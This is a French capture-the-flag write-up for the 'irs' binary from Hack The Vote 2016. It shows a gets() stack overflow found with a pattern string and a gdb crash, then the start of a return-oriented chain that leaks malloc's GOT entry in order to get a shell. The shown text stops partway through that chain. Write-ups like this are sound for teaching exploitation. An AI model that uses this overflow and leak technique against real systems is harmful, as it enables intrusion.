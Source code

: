 ```yaml
---
layout: post
title: "Hack The Vote 2016 CTF"
date: lundi 7 novembre 2016, 08:13:50 (UTC+0100)
comments: true
categories: wu
---
```

Le binaire presente les caractéristiques suivantes:
```
Filename                 irs
File format              ELF32
Architecture             x86
Endianess                little endian
Entry point              0x8048540
Loadables segments       2
Sections                 34

NX bit                   enabled
SSP                      disabled
Relro                    full
RPATH                    no rpath
RUNPATH                  no runpath
PIE                      disabled
```
Si on analyse le binaire, on constate l'appel de la fonction gets dans la fonction edit_return. On peut le constater en répondant «ABCDEFGHIJKLMNOPQRSTUVWXYZ@@AABBCCDDEEFFGGHHIIJJKKLLMMNNOOPPQQRRSSTTUUVVWWXXYYZZ@@@AAABBBCCCDDDEEEFFF» à la question «y/n» lors de l'édition d'un contribuable, sous gdb on obtient:

Your changes have been recorded!
```
Program received signal SIGSEGV, Segmentation fault.
--------------------------------------------------------------------------[regs]
  EAX: 0x00000022  EBX: 0xf7fac000  ECX: 0xffffffff  EDX: 0xf7fad878  o d I t S z a P c 
  ESI: 0x00000000  EDI: 0x00000000  EBP: 0x59585756  ESP: 0xffffd050  EIP: 0x4140405a
  CS: 0023  DS: 002b  ES: 002b  FS: 0000  GS: 0063  SS: 002bError while running hook_stop:
Cannot access memory at address 0x4140405a
0x4140405a in ?? ()
```
Cela nous donne bien un buffer overflow sur au niveau de Z@@A, pour être précis, on a un tampon de remplissage ABCDEFGHIJKLMNOPQRSTU suivi de l'écrasement de <EBP> puis <EIP> et la suite.

Le mot de passe de Donald Trump est flag_is_here_on_server!!.

On va donc essayer de prendre un shell.

Le prelude du programme est le suivant:
```
chaine=PAD
chaine+=p32(nom1)	<---- au pif
chaine+=p32(puts_plt)	<---- affiche ce qui est pointé par
chaine+=p32(pop1)	      malloc_got
chaine+=p32(malloc_got)
chaine+=p32(puts_plt)	<---- affiche «Deductible»
chaine+=p32(pop1)
chaine+=p32(deductible)
chaine+=p32(puts_plt)	<---- reaffiche malloc_got 
chaine+=p32(pop1)
chaine+=p32(malloc_got)
chaine+=p32(gets_plt)	<---- lit la pile suivante
chaine+=p32(pop1)
chaine+=p32(pile)	<---- à l'endroit pile (0x804b880)
chaine+=p32(puts_plt)	<---- affichage de cette pile
chaine+=p32(pop1)
```